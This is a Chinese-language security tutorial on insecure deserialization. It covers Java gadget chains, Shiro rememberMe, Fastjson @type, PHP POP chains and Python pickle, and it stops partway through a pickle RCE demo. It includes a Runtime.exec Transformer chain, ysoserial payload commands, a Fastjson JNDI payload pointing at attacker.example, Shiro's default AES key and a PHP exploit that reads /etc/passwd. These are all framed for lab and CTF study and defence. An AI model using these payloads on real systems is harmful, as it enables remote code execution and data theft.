







# 15. 反序列化漏洞（Insecure Deserialization）

> 日期：2026-11-04
> 所属大纲阶段：3. Web 安全
> 参考资料：
> - OWASP Cheat Sheet Series — Insecure Deserialization Cheat Sheet（`https://cheatsheetseries.owasp.org/`）
> - OWASP Top 10:2021 — A08:2021 Software and Data Integrity Failures
> - Oracle JEP 290: Filtering Incoming Serialization Data（ObjectInputFilter）
> - Frohoff, C. & Lawrence, G. — *Marshalling Pickles: How Deserializing Objects Can Ruin Your Day*（BlackHat USA 2015 / FoxGlove Security）
> - PHP Manual — Magic Methods 与 unserialize()
> - Python 官方文档 — pickle 模块「Warning」章节
> - CVE Details — Apache Shiro CVE-2016-4437、Fastjson 系列漏洞通告

---

## 0. 阅读前提与本文目标

- **前提**：了解 HTTP 基础、至少熟悉一门后端语言（本文涉及 Java/PHP/Python/C#），理解「对象」「类」「方法」等 OOP 概念。
- **目标**：
  1. 说清「序列化/反序列化」是什么、各语言的格式长什么样；
  2. 理解**为什么反序列化不可信数据等价于远程代码执行（RCE）风险**；
  3. 能读懂（并能防御）Java CC 链、Shiro rememberMe、Fastjson `@type`、PHP POP 链、Python pickle 等**典型利用面**；
  4. 掌握一套可以落地到代码评审与加固中的**防御清单**。
- **合规声明**：本文所有攻击性示例（利用链构造、payload）**仅限本地靶场 / CTF 环境使用**，运行环境均已在代码块前注明。请勿对任何未授权系统使用。

---

## 1. 什么是序列化与反序列化

### 1.1 概念

- **序列化（Serialization）**：把内存中的对象（object）转换成可传输、可持久化的字节流或文本的过程——对象的「快照」。
- **反序列化（Deserialization）**：把这段数据**还原回一个活的对象**的过程。

关键区别在于：JSON/XML 这类**纯数据格式**还原的是「数据结构」（数组、字典），而**对象序列化格式**还原的是「特定类的实例」，且**还原过程中会自动执行该类定义的行为**（如 `readObject()`、魔术方法、构造逻辑等）。



**一句话风险本质**：反序列化 = 「把外部输入直接变成代码执行路径」——数据流和控制流在此交汇。如果还原的目标类里存在能被串起来最终执行任意命令的方法组合（**利用链 / Gadget Chain**），攻击者控制的数据就能变成任意代码执行。

### 1.2 各语言原生序列化格式对比

| 语言 | 常见 API | 格式特征（识别指纹） | 典型漏洞面 |
|---|---|---|---|
| **Java** | `ObjectOutputStream` / `ObjectInputStream` | 魔数 `AC ED 00 05`；Base64 后以 `rO0AB` 开头 | 中间件协议（T3/JRMP/RMI）、rememberMe、RMI、JMS |
| **PHP** | `serialize()` / `unserialize()` | 文本格式 `a:1:{s:3:"k";s:5:"v";}`、`O:4:"User":...` | Web 应用 Cookie/表单、phar 元数据 |
| **Python** | `pickle` / `cPickle` / `shelve` | 协议 0 可读（tuple 的实际输出为 `(I1\ntp0\n.`）、协议 2+ 二进制 `\x80\x02`（Base64 后 `gAJ9...`；协议 3 的 dict 为 `gAN9`、协议 4 为 `gASV`） | 缓存、Celery/MQ 消息、机器学习模型文件 |
| **.NET** | `BinaryFormatter` / `ObjectStateFormatter`（ViewState）/ JSON.NET `$type` | `AAEAAAD/////`（ViewState Base64 头） | ViewState、Remoting、JSON.NET 多态 |
| **Ruby** | `Marshal` | 二进制 `\x04\x08` | Rails 历史（CVE-2013-0156 等） |
| **Node.js** | `node-serialize` 等库 | JSON 文本 + `"_$$ND_FUNC$$_"` | 反序列化即 eval 类库 |

> **识别指纹是检测与应急的第一步**：日志/WAF 里看到 `rO0AB`、`O:\d+:"`、`\x80\x04` 这类模式出现在请求参数、Cookie、Header 中，几乎可以直接判定为序列化数据外带。

### 1.3 序列化 ≠ 加密，也 ≠ 编码

三个经常被混为一谈的概念：

| 概念 | 目的 | 例子 | 可逆性 |
|---|---|---|---|
| **编码（Encoding）** | 表示形式转换，便于传输 | Base64、URL 编码 | 任何人可逆，无安全性 |
| **序列化（Serialization）** | 对象 ↔ 字节流 | Java 二进制、PHP 文本 | 需要「对应语言的运行时」才能还原 |
| **加密（Encryption）** | 保密性 | AES、RSA | 需要密钥 |

**常见错误认知**：「我对序列化数据做了 Base64 / 加了 AES，所以反序列化安全了。」——加密只解决**保密性**，不解决**完整性 + 代码执行**问题；密钥一旦泄露（如 Shiro 默认密钥），防线瞬间归零。详见第 7 章防御部分。

---

## 2. 为什么反序列化不可信数据危险（原理剖析）

### 2.1 从「数据」到「行为」

纯数据格式（JSON）反序列化后得到的是被动的数据容器；对象序列化格式还原时，运行时会：

1. 根据流中记录的**类名**加载类；
2. 按流中内容**填充字段**（甚至绕过构造函数）；
3. 调用类声明的**还原钩子**（Java `readObject`、PHP `__wakeup`/`__destruct` 等）。

第 3 步就是问题的核心：**还原钩子里可以写任意代码**。即便钩子本身无害，只要这个类还持有别的对象，还原后的对象在后续被使用（`equals`/`hashCode`/`toString`/`get`…）时，又可能触发第二层、第三层对象的方法——**像多米诺骨牌一样传导**，直到某一环触达「执行命令」「写文件」「JNDI/RMI 远程加载」这类敏感操作（称为 **Sink**）。

### 2.2 Gadget（利用链零件）与 Gadget Chain

- **Gadget**：应用或其依赖库中，一个「输入可控时会产生危险行为」的小方法或小类。
- **Gadget Chain（利用链）**：把若干 Gadget 按「上游的输出恰好是下游的输入」串起来，从反序列化入口一路传导到 Sink。
- 重要的心理模型：**利用链的每个环节单独看都是「正常功能」**——`InvokerTransformer.transform()` 就是个反射工具类，`LazyMap.get()` 就是个惰性 Map。单看任何一段都「没有漏洞」，危险来自组合。这也是为什么防御不能依赖「删掉某一个类」。



### 2.3 利用前提与影响

反序列化利用需要两个条件同时满足：

1. **入口**：应用对**攻击者可控的数据**调用了反序列化（Cookie、参数、消息队列、RPC 协议、缓存值……）；
2. **链条**：应用 classpath 上存在可用的 Gadget 链（常见于老旧依赖，如 commons-collections 3.1、xalan 等）。

影响通常等价于**远程代码执行（RCE）**，也可能「仅」是拒绝服务（构造深嵌套结构耗尽栈/内存）——**DoS 也是不可接受的后果**，不要因为「打不成 RCE」就放行。

> **理解检查**：为什么「把反序列化入口包在 try-catch 里」不能算修复？——因为利用链的执行发生在 `readObject()` **内部、异常抛出之前**，等抛出 `ClassNotFoundException` 时命令早已执行完毕。

---

## 3. Java 反序列化详解

Java 是历史上受反序列化影响最深、生态最复杂的平台，也是面试与实战的高频考点。

### 3.1 序列化流结构：`rO0AB` 从哪来

`ObjectOutputStream` 写出的流结构（简化）：

```
+---------------------+----------------------------------------------+
| 流头 (Stream Header)| 内容                                          |
+---------------------+----------------------------------------------+
| AC ED 00 05         | 序列化对象图：类描述 + 字段类型 + 字段值 ...      |
+---------------------+----------------------------------------------+
  magic  version
  0xACED  0x0005

Base64("ACED0005...") 的前 5 个字符固定为 "rO0AB"
```

> 注：此图保留 ASCII 原样 —— Java 序列化流字节布局表（AC ED 00 05 魔数与版本号），Mermaid 无对应图类型

对象记录的大致布局：



几个要点：

- **serialVersionUID（版本号）**：不匹配会抛 `InvalidClassException`，所以改包名/类结构会影响利用链可用性。
- **引用机制（handle）**：同一个对象出现两次只写一次，第二次用 handle 回指——这就是为什么精心构造的链里能看到 `sr`/`q` 引用字节。
- **还原钩子声明在类描述符标志位里**：如果类的 `readObject` 存在，`ObjectInputStream` 在读完字段后会**反射调用它**——利用链的第一张多米诺骨牌。

### 3.2 与序列化相关的「魔法方法」（回调面）

| 方法 | 触发时机 | 在利用链中的典型角色 |
|---|---|---|
| `readObject(ObjectInputStream)` | 还原该类实例时 | **入口 Gadget**（如 `AnnotationInvocationHandler`、`BadAttributeValueExpException`） |
| `readObjectNoData()` | 流中没有该类数据时 | 少见 |
| `writeObject(...)` | 序列化时 | 构造 payload 时配合定制输出 |
| `readResolve()` | 还原完成后替换返回对象 | 防御上可用于单例保护；攻击上个别链用到 |
| `writeReplace()` | 序列化前替换被写对象 | 同上 |
| `hashCode()` / `equals()` / `toString()` / `compareTo()` | 对象被放入 HashMap/打印/排序时 | **传导 Gadget**（如 `TiedMapEntry.hashCode()`、`XString.equals()`） |

> 这些方法不是漏洞，而是**对象生命周期里的合法回调**。安全评审时的问法应该是：「这个类的 `readObject`/`hashCode` 会不会在字段可控时，做出意料之外的事？」

### 3.3 Commons-Collections 利用链（CC 链）逐步分析

> 以下分析**仅限本地靶场 / CTF 环境使用**。运行环境：JDK 8（部分链依赖 JDK8u71 以前的 `AnnotationInvocationHandler` 行为），commons-collections 3.1（Maven 中央仓库可下载）。

#### 3.3.1 核心零件：Transformer 体系

commons-collections 提供了一套「函数对象」工具：

```java
// 环境：Java 8 + commons-collections 3.1，仅靶场演示
public interface Transformer {
    Object transform(Object input);
}

ConstantTransformer  // 无论输入是什么，返回构造时固定的对象
InvokerTransformer   // 对输入对象做一次反射调用：方法名、参数类型、参数均可指定
ChainedTransformer   // 把多个 Transformer 串起来：上一个的输出是下一个的输入
```

`InvokerTransformer.transform()` 的实现（简化）正是**反射 Sink**：

```java
// commons-collections 源码（简化）
public Object transform(Object input) {
    Class cls = input.getClass();
    Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
    return method.invoke(input, this.iArgs);
}
```

#### 3.3.2 Transformer 链构造思路

想执行 `Runtime.getRuntime().exec("calc")`，需要把它拆成纯反射步骤（`Runtime` 类没有 public 构造器、且不可序列化，所以要通过 `Runtime.class` 的 `Class` 对象反射拿到实例）：

```java
// 仅限本地靶场 / CTF 环境使用；环境：JDK 8 + commons-collections 3.1
Transformer[] chain = new Transformer[]{
    new ConstantTransformer(Runtime.class),                       // 1. 拿到 Class 对象
    // 2. Class.getRuntime() → Runtime 实例（静态方法，input 传 null）
    new InvokerTransformer("getRuntime", new Class[0], new Object[0]),
    // 3. Runtime.exec(String cmd)
    new InvokerTransformer("exec", new Class[]{String.class},
                           new Object[]{"gnome-calculator"}),      // 靶场里换成无害命令
    new ConstantTransformer(1)                                    // 4. 收尾占位
};
Transformer chained = new ChainedTransformer(chain);
```

**传导思路**：只要让程序「对我们埋好的对象调用一次 `transform(input)`」，命令就会执行。而 commons-collections 里大量组件会自动调用 Transformer——例如 `LazyMap.get(key)` 在 miss 时调用 factory.transform(key)。于是问题变成：**如何让反序列化后的对象在无人显式调用的情况下，触发一次 `LazyMap.get()`？**

#### 3.3.3 CC1 链骨架（LazyMap + AnnotationInvocationHandler）



- `AnnotationInvocationHandler` 是 JDK 内部类（`sun.reflect.annotation`），它实现了 `InvocationHandler`，配合 `Proxy` 代理 `Map` 接口——**反射代理**是很多链的「胶水」。
- 同族变体：**CC5**（`BadAttributeValueExpException.readObject` → `TiedMapEntry.toString` → `LazyMap.get`）、**CC6**（`HashSet.readObject` → `TiedMapEntry.hashCode` → `LazyMap.get`，**不依赖 JDK 版本**、最常用）、**CC2/CC4**（针对 commons-collections **4.x**，经 `PriorityQueue.readObject` → `TransformingComparator`）。
- 学习建议：先手写 CC6（依赖最少、JDK 兼容性最好），再对比 CC1 理解「为什么换入口」。完整调试可在本地用 `HashMap` 断点跟踪 `hashCode()` 的调用栈。

#### 3.3.4 ysoserial 工具使用说明

**ysoserial**（frohoff/ysoserial，GitHub）是 Java 反序列化利用链的「payload 生成器」，也是**蓝队做检测测试的必备工具**（生成样本验证防护是否生效）。

```bash
# 环境：本地靶场/CTF。需要 JDK 8（高版本 JDK 会因入口类变动导致部分链失效）
git clone https://github.com/frohoff/ysoserial.git
mvn clean package -DskipTests           # 或直接下载 Releases 的 jar

# 生成 CC6 payload：弹出计算器（验证用）
java -jar ysoserial.jar CommonsCollections6 "gnome-calculator" > payload.bin
# 生成 Base64 形态（很多入口收 Base64 字符串）
java -jar ysoserial.jar CommonsCollections6 "id" | base64 > payload.b64
```

payload 的投递方式取决于入口（Cookie/参数/文件/T3 协议包）。**防御方用法**：在自己的测试环境重放 ysoserial 全系列 payload，验证 RASP/ObjectInputFilter 是否拦截——这叫「利用链回归测试」。

> 提醒：ysoserial 内置命令默认在**你自己的机器**上执行，先读懂再运行；不要拿真实业务系统「试一下」。

### 3.4 Shiro rememberMe：AES-CBC + 默认密钥问题

Apache Shiro 的「记住我」功能是 Java 反序列化最经典的入口之一（**CVE-2016-4437**，常称 Shiro-550）。

原理流程：



两个问题叠加：

1. **默认密钥硬编码**：1.2.4 及以前版本 jar 包内默认密钥为 `kPH+bIxk5D2deZiIxcaaaA==`（Base64）。大量系统部署后**从未改过**。公开的默认密钥字典有上百个（各商业产品二开时又写死了自己的）。
2. **解密后直接反序列化**：没有类型白名单过滤。

利用条件与形态（仅靶场）：

- 拿到密钥 → 本地 AES-CBC 加密(ysoserial 产物) → Base64 → 塞进 rememberMe Cookie。
- **判断密钥是否正确的旁证**：密钥错误时响应 `Set-Cookie: rememberMe=deleteMe`，正确但反序列化失败时一般没有（或不同）——这就是经典的 **rememberMe 探测特征**，同时也可作为检测规则（见第 8 章）。
- **Shiro-721**（CVE-2019-12422）：密钥正确性不可知时，利用 **CBC Padding Oracle** 逐字节构造合法密文——无需知道密钥，但每个字节需上百次请求，噪音大。
- 防御：升级至高版本（新版默认密钥已改为随机生成）；更根本的是 rememberMe 不应反序列化对象——官方建议配置为仅存身份 ID（默认行为仍是序列化 PrincipalCollection + AES 加密，仅存 ID 需按官方文档另行配置）。

### 3.5 Fastjson / Jackson 多态反序列化（@type / autoType）

**多态反序列化（polymorphic deserialization）**：JSON 里带上「类型名」，让库实例化**指定类**并填值——这是把 JSON 库变成「对象反序列化入口」的功能。

```json
// Fastjson @type 示例：请求体中出现这种结构即高危信号（仅靶场演示）
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://attacker.example/Exploit","autoCommit":true}
```

- **Fastjson**：`autoTypeSupport` / `@type` 机制历史上产生 1.2.24 → 1.2.83 一长串绕过与反制（黑名单 → 白名单 → checkAutoType → safeMode）。典型 sink 是 **JNDI 注入**：`JdbcRowSetImpl.dataSourceName` 指向恶意 LDAP/RMI，服务端 `lookup()` 时远程加载并实例化恶意类 → RCE。
  - **safeMode**（完全禁用 @type）是最终防御，但要先确认业务确未用到多态。
- **Jackson**：默认**不**启用多态；一旦调用 `enableDefaultTyping()` 或字段标注 `@JsonTypeInfo(use=Id.CLASS)`，同样暴露在 JNDI/链式 gadget 风险下（CVE-2017-7525 等）。
- **共性教训**：*「让客户端决定服务端实例化哪个类」本质就是反序列化，不管外层格式是不是 JSON。*

### 3.6 WebLogic T3 简史

- **T3 协议**：WebLogic 的 RMI 私有协议（端口 7001），报文中可携带序列化对象。
- **CVE-2015-4852** 开启了 T3 反序列化时代；随后 Oracle 陆续加了黑名单，又陆续被绕过（CVE-2016-0638 改走「内嵌」流、CVE-2016-3510 经 `Externalizable` 包装、CVE-2017-3248 走 JRMP……），直到引入**序列化过滤**才收敛。
- 防御要点：对 7001 端口做网络隔离（不应暴露公网）；补丁要用 Oracle 官方「反序列化过滤器 + 黑名单」组合策略；监控 T3 握手中的异常类名。

---

## 4. PHP 反序列化

### 4.1 serialize / unserialize 格式逐字符解析

PHP 的序列化是**人类可读的文本格式**，每个值以「类型字母 + 长度 + 冒号 + 内容」表示：

```php
// 环境：PHP 7.4 CLI，本地运行
$s = serialize(["user" => "bob", "age" => 18, "ok" => true, "pi" => 3.14]);
// a:4:{s:4:"user";s:3:"bob";s:3:"age";i:18;s:2:"ok";b:1;s:2:"pi";d:3.14;}

逐字符解析 a:4:{s:4:"user";s:3:"bob";...}：
  a:4:  → array，含 4 个键值对
  {     → 开始
  s:4:"user";  → string，长度 4，值 "user"
  s:3:"bob";   → string，长度 3，值 "bob"
  i:18;        → integer 18
  b:1; / d:3.14; → boolean / double(float)
  }     → 结束

对象：
O:4:"User":2:{s:4:"name";s:3:"bob";s:3:"age";i:18;}
  O:4:"User":2:  → Object，类名长度 4 为 "User"，2 个属性
  私有属性序列化时会带上类名前缀：s:12:"\0User\0secret"（\0 为单字节空字节，长度 12 = 1+4+1+6；URL 里要编码成 %00）
  保护属性：s:9:"\0*\0secret"（长度 9 = 1+1+1+6）
引用：R:n;（指向第 n 个已出现的 zval）——构造嵌套/环形结构时常见
```

安全审计时见到 `unserialize($cookie)`、`unserialize(base64_decode($_POST['data']))` 这类代码，即为入口。

### 4.2 魔术方法（Magic Methods）与链式触发

`unserialize()` 还原对象时会**自动**调用类中定义的魔术方法，还原后对象被正常使用时又会触发另外一批：

| 魔术方法 | 触发时机 | 链中角色 |
|---|---|---|
| `__construct` | 实例化时 | 反序列化**不**调用它（注意！），但链尾目标类的构造可能有用 |
| `__destruct` | 对象销毁（脚本结束/GC） | **最常见入口**——反序列化出的对象总有一天会被销毁 |
| `__wakeup` | `unserialize()` 还原时 | 入口（可被 CVE-2016-7124 绕过，见下） |
| `__toString` | 对象被当字符串使用（echo/拼接/参数传递） | 传导 |
| `__call` | 调用不可访问/不存在的方法时 | 传导 |
| `__get` / `__set` | 读写不可访问属性时 | 传导 |
| `__invoke` | 对象被当函数调用 `$obj()` | 链尾 sink 常见 |
| `__sleep` | `serialize()` 前 | 构造 payload 时配合 |

**POP 链（Property-Oriented Programming）**：类比二进制里的 ROP——不改代码，只靠**控制对象属性**，让程序在既有方法之间「接力」，最终触达 sink（`system`/`eval`/`file_put_contents`/`unlink`…）。

### 4.3 POP 链构造入门：完整小型 demo

> **仅限本地靶场 / CTF 环境使用。**
> 环境：PHP 7.4 CLI（`php -S 127.0.0.1:8080` 本地起服务），漏洞代码保存为 `vuln.php` 手动访问，或直接 CLI 运行。

**（1）漏洞代码**（模拟 CTF 中「多个类拼图」的典型结构）：

```php
<?php
// vuln.php —— 仅限本地靶场 / CTF 环境使用（PHP 7.4 CLI）
class Start {
    public $func;                 // 可控属性
    public function __destruct() {
        echo "[Start::__destruct]\n";
        $this->func->hello();     // 调用属性对象上的 hello() —— 若该对象没有 hello，触发 __call
    }
}
class Mid {
    public $file;
    public function __call($name, $args) {   // 任意方法名都会进这里
        echo "[Mid::__call] $name\n";
        echo file_get_contents($this->file); // sink：任意文件读取（靶场演示用读取自身）
    }
}
// 入口：模拟从 Cookie 收到攻击者数据
$data = $_GET['d'] ?? ($argv[1] ?? '');
if ($data) unserialize(base64_decode($data));
```

**（2）分析链路**：



**（3）构造 exp**：

```php
<?php
// exp.php —— 仅限本地靶场 / CTF 环境使用（PHP 7.4 CLI）
class Start { public $func; }
class Mid   { public $file; }

$s = new Start();
$s->func = new Mid();
$s->func->file = '/etc/passwd';          // 靶场内任选目标文件
echo urlencode(base64_encode(serialize($s))), "\n";
```

```bash
php exp.php                      # 得到 payload
php vuln.php "<上面输出的 payload>"   # CLI 模拟；Web 场景则 GET ?d=payload
# 观察三个 [..] 回显，理解触发顺序
```

**（4）经典变体与知识点**：

- **`__wakeup` 绕过（CVE-2016-7124）**：当流中属性个数**大于**真实属性个数时，PHP < 5.6.25 / < 7.0.10 不调用 `__wakeup`。写法：`O:5:"Start":2:{...}`（真实只有 1 个属性）。做题常见，但**这是旧版本行为**，新版本已修复。
- 属性可见性不严格匹配（`public` 声明用带 `\0` 前缀的序列化也能还原），构造 payload 时注意版本差异。
- 构造链的思维口诀：**从 sink 逆推**——先找 `system/eval/unlink/include` 等危险调用，看它在哪个方法里、方法怎么被触发、属性从哪来。

### 4.4 phar 反序列化一句话预告

`phar://` 流包装器在**文件操作**（`file_exists`/`file_get_contents`/`getimagesize`…）访问 phar 文档时，会自动反序列化其**元数据（metadata）**——也就是说，攻击者只要能上传一个 phar 文件（改名 `.jpg` 也行），再诱导程序以 `phar://` 协议（或部分版本下仅触发反序列化）访问它，就能绕开「没有 unserialize 入口」的限制。这是一个大专题，后续在文件上传/包含的笔记中展开。

---

## 5. Python pickle

### 5.1 协议与 opcode 概要

`pickle` 是 Python 对象的跨进程持久化格式。协议版本 0（ASCII 可读）到 5。底层是**栈式虚拟机**：字节流由一条条 opcode 驱动，操作数压栈、指令消耗栈：

```text
常用 opcode（协议 2 视角）：
  c<module>\n<name>\n   GLOBAL   把 module.name 压栈（后续可用它取类/函数）
  (                     MARK     在栈上打标记（组成 list/tuple 的起点）
  t                     TUPLE    把 MARK 之上的元素打包成 tuple
  }                     EMPTY_DICT … 其他容器类
  R                     REDUCE   弹出 args 与 callable，执行 callable(*args) 并压结果  ← 关键
  0 0x80 0x02 …         协议头
  .                     STOP     结束
```

`R`（REDUCE）就是 pickle 的「执行」原语：**任何可 pickle 的 callable + 参数 = 反序列化时执行**。官方文档开头的 Warning 原文即为此：*Never unpickle data received from an untrusted source.*

用 `pickletools` 查看结构（分析 payload 的标准姿势）：

```python
# 环境：Python 3.10+，本地靶场分析用
import pickletools
payload = pickle.dumps({"a": 1}, protocol=2)
pickletools.dis(payload)   # 打印 opcode 反汇编
```

### 5.2 `__reduce__` 构造 RCE payload 完整 demo

> **仅限本地靶场 / CTF 环境使用。** 环境：Python 3.10+（本机 venv），demo 只执行无害命令 `id` 并打印。

```python
# pickle_rce_demo.py —— 仅限本地靶场 / CTF 环境使用
import pickle, base64, os

class Evil:
    def __reduce__(self):
